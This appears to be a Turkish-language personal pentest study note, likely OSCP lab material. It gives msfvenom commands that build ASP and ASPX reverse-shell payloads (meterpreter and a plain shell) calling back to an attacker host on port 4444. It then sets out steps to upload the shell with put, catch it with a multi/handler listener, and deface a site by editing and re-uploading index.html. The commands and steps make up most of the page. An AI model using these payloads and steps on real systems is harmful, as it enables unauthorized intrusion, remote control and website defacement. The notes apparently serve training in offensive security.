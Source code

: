 ### ASP REVERSE SHELL MSFVENOM
#asp-msfvenom
#asp-reverseshell
https://notchxor.github.io/oscp-notes/8-cheatsheets/msfvenom/
## <span style="background:#ff4d4f">ÇOK ÖNEMLİ</span>
![[Pasted image 20240402152626.png]]
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.5 LPORT=4444 -f asp > shell.asp
```

## ASPX olsa daha çok verim alınabilir.
![[Pasted image 20240402153101.png]]

### Buradaki durumda meterpreter shell çalışmayabilir o yüzden payload normal shell üzerinden ayarlanacak.

### msfvenom -p windows/shell/reverse_tcp LHOST=10.0.2.5 LPORT=4444 -f asp > shell.aspx

---
![[Pasted image 20240402153325.png]]

## put komutu ile karşıya aspx dosyamızı koyduk.
### multihandler dinleyici aç + hedefte çalıştır 
### Shell gelsin


![[Pasted image 20240402153501.png]]
![[Pasted image 20240402154939.png]]

------------------------------------
## Web sitesi dış görünümü değiştirmek. 
### get komutu ile index.htlm dosyasını kendi kalimize alıp, içeriğini değiştirebiliriz.
![[Pasted image 20240402160552.png]]

### Sonra geri put komutu ile geri koyduğumuzda gözükür.
![[Pasted image 20240402160744.png]]

----

##  Targeting OpenSSH
### Windows ssh    #windows-ssh 
